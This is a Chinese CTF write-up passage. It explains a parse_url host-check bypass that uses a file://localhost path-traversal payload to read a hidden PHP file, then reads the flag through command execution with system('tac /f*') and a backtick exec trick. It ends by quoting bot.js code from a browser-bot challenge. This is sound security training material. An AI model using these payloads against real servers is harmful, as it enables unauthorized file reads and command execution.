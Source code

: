 这是初始的源码，提示了dasdif.php所以我们要通过下面的readfile读取它

parse_url老php漏洞函数了

```php
<?php
show_source(__FILE__);
#dasdif.php
$ysy=$_GET['ysy'];
$parts=parse_url($ysy)
if(empty($parts['host']) || $parts['host'] !='localhost'){
    //都不满足，也就是 不为空  host等于本地
    exit('error');
}
readfile($ysy);
?>
```

file://localhost/../../../../../var/www/html/dasdjf.php  绕过即可

获得rce的源码

![image-20231003165118725](..\img\final\image-20231003165118725.png)

呃呃呃直接，system('tac /f*');即可

发现了一个神奇的姿势记录下来

```
echo `ls/`;//exec   以后如果有冗余就可以//注释
```



##  startschool

js的题可以仔细看看

main.js和bot.js

main.js负责接收用户传的数据，发送给bot.js

```javascript
const zombie = require("zombie")//js第三方模块，很可疑

exports.visit = async function () {
    const browser = new zombie ({
        waitDuration: 5*1000,
        localAddress: 0 
   })

    browser.setCookie({ name: 'admin', domain: '127.0.0.1', path:'/', httpOnly: 'true'})// 指定cookie

    browser.visit("http://127.0.0.1/view",function() {
        console.log("Visited: ", "http://127.0.0.1/view")
})    
}

```